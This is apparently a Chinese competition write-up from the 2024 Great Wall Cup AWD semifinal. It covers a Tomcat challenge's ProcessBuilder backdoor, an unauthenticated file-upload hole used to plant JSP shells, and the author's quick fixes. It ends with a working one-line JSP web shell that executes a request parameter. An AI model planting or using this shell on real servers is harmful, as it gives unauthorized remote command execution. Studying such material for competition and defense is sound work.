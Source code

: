 长城杯2024半决赛-WP
=============

记录一下第一次攻防对抗AWD和综合渗透ISW的线下比赛的WP，大佬轻喷。

攻防对抗AWD
=======

题目一 | Tomcat
------------

### processBuilder后门

D盾扫一下，forget.jsp存在一个processBuilder后门，可以直接回显，直接正常命令打就行了；

![image-20240423011910561](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-0940646f77cd9420c66c9bb3024ae07bafc9e6a8.png)

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-4fc512b725d802fe4d2261af63bdd1aa3c209d67.jpeg)

修复：也很简单，直接注释processBuilde的关键语句或者那一整段注释掉；

### 文件上传

发现被打了好多，开始排查，发现userImg目录下面被上传了恶意shell，老师账号密码被修改登录不上去急急急，学生后面也发现被添加了一些用户；

没有别的办法了只能去mysql数据库直接改密码了，先要登录上mysql，所以先去给的databases.sql文件看看有没有账号密码，确实有：

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-ad7d21454a4034e6dafd6677c0179425c2e79494.jpeg)

直接登录修改test1数据库的teacher表的账号密码。

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-014b9e66509a73a2c6320d6479b5b769f07f6542.jpeg)

然后发现，有一个文件上传接口，没有任何过滤；

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-f02bbeff46006a86d98adbe825b58793338eeb50.jpeg)

排查到自己的userImg确实被上传了不少恶意jsp-shell；

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-a24f9f69686d8e79c02df32aa2f82edca65ad265.jpeg)

排查到学生和老师的头像上传位置不校验文件，直接上传恶意shell，再次测试发现，不用登录也可以上传?；

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-ba6e94293946e7a5d3fa3acec9b4a9a293c832ae.jpeg)

那就写个脚本，批量打打；（中间找回显?找了好久，自己还不会写内存?，背大锅?）

修复：由于没怎么审计过tomcat-jsp架构的web系统，短时间内没定位到具体的有问题的jsp文件，因此直接给userImg加了个400权限，不能上传文件即可。（还是被打了好多，不知道从哪打的。我想可能是已经被打了不少内存?）

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-5cf382df047b1b2e7cf888d2d40a846b7e7c4270.jpeg)

```php
回显?：
<%  java.io.InputStream in \= Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a \= \-1; byte\[\] b \= new byte\[2048\]; out.print(""); while((a\=in.read(b))!=-1){ out.println(new String(b)); } out.print(""); %>
```
